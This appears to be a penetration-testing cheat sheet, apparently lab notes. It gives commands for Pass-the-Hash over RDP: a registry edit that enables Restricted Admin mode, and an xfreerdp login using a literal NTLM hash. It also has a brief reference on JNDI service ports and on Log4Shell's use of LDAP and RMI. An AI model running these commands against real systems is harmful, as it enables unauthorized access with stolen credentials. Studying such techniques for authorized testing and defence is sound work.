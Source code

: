 ### Pass the Hash with RDP
Adding the DisableRestrictedAdmin Registry Key
```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
```shell
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```


# JNDI
The Java Naming and Directory Interface (JNDI) is an API in Java that provides applications with a unified way to look up and access various naming and directory services.
## Service Info
JNDI interacts with several directory or naming services, and the ports depend on the underlying protocol:
- LDAP (Lightweight Directory Access Protocol):
  - Default Port: 389 (unencrypted)
  - Secure Port (LDAPS): 636 (over TLS/SSL)
- RMI (Remote Method Invocation):
  - Default Port: Configurable (commonly 1099 for the RMI registry)
- DNS (Domain Name System):
  - Default Port: 53
- CORBA (Common Object Request Broker Architecture):
  - Ports depend on the implementation, often dynamically allocated.
- HTTP/HTTPS (if used with a JNDI-based naming service):
  - Default Port: 80 (HTTP), 443 (HTTPS)


# Attacks
## Log4Shell
In the context of the Log4Shell vulnerability, attackers used JNDI with LDAP or RMI services to execute malicious payloads. The typical ports targeted during these attacks were:

    LDAP: Port 389 (or 636 for LDAPS)
    RMI: Port 1099 (commonly used for RMI registry)
